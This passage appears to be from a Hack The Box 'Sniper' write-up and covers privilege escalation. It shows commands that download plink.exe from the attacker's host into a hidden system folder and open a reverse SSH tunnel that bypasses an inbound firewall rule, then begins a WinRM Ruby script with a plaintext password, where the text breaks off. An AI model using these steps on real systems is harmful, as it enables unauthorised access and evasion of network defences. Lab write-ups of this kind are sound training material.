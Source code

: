 1. Create a dummy user on my kali VM to be the ssh target for my reverse tunnel, then start sshd.
    - `useradd -s /bin/rbash -d /home/pleb pleb`
    - `service ssh start`
    - I also need to set a password for our new pleb user: `passwd pleb`
2. Set up a HTTP server to send my tunneling tool. For tunnelling, I'll be using plink.exe (the CLI version of putty). Another option for tunnelling would have been executing meterpreter and using its `portfwd` command. 
    - `cp /usr/share/windows-resources/binaries/plink.exe .`
    - `python -m SimpleHTTPServer 80`
3. Use my existing shell to download plink.exe and create a reverse SSH tunnel. The tunnel will forward all TCP traffic outbound from my Kali VM on port 5985 to Sniper's TCP port 5985 through the ssh session and via Sniper's loopback address - therefore bypassing the 'block inbound' rule. Tunnelling this way can sometimes be conceptually confusing at first, so here's a good reference :) https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html
    - (From Sniper) `Powershell Invoke-WebRequest -URI http://10.10.14.8/plink.exe -OutFile C:\Windows\System32\Spool\Drivers\Color\plink.exe`
    - `C:\Windows\System32\Spool\Drivers\Color\plink.exe -l pleb -pw Test123! -R 5985:127.0.0.1:5985 10.10.14.8` 
    - Here's where I'm at so far:
    ![Image](/assets/img/sniper/sniper_privesc_tunnel.png)
4. Now to try Powershell Remoting through my tunnel from Kali. There are a few ways to do this and in another post I'll show the use of [evil-winrm](https://github.com/Hackplayers/evil-winrm), but for now I'll just use a simple ruby script that I found [here](https://alionder.net/winrm-shell/).
    - First, install the package ruby needs for the script to run `gem install winrm` ... easy!
    - Then edit the IP address and credentials in the script which should look like this:
    
    ```ruby
    require 'winrm'

    conn = WinRM::Connection.new(
      endpoint: 'http://127.0.0.1:5985/wsman',
      user: 'Chris',
      password: '36mEAhz/B8xQ~2VM',
    )

